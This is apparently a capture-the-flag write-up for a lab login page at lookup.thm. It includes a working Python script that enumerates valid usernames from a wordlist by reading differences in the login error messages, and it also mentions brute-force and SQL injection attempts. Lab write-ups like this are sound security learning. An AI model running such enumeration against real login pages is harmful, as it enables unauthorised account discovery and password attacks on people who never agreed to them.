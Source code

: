 
We are presented with a simple login form.

Trying some common credentials like `admin:admin` and `admin:password` doesn’t work, and SQLi attempts also fail.

At this point I was a bit stuck, I tried enumerating subdomains and brute-forcing directories and files, but nothing came up.

I even tried a brute-force on “admin” , but nothing worked!

But if we look closely at the website’s behavior, we can observe that it is possible to enumerate valid usernames based on the error we are getting from the website upon a failed login

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption><p>Trying admin:admin</p></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot 2024-11-24 181811.png" alt=""><figcaption><p>Trying Cyberpunk:1234</p></figcaption></figure>

Lets Try username enumeration with this logic

#### Method 1 : Using Python

We can write a small python script that would help us enumerate valid usernames:

```python
import requests

# Define the target URL
url = "http://lookup.thm/login.php"

# Define the file path containing usernames
file_path = "/usr/share/seclists/Usernames/Names/names.txt"

# Read the file and process each line
try:
    with open(file_path, "r") as file:
        for line in file:
            username = line.strip()
            if not username:
                continue  # Skip empty lines
            
            # Prepare the POST data
            data = {
                "username": username,
                "password": "password"  # Fixed password for testing
            }

            # Send the POST request
            response = requests.post(url, data=data)
            
            # Check the response content
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue  # Silent continuation for wrong usernames
except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")
```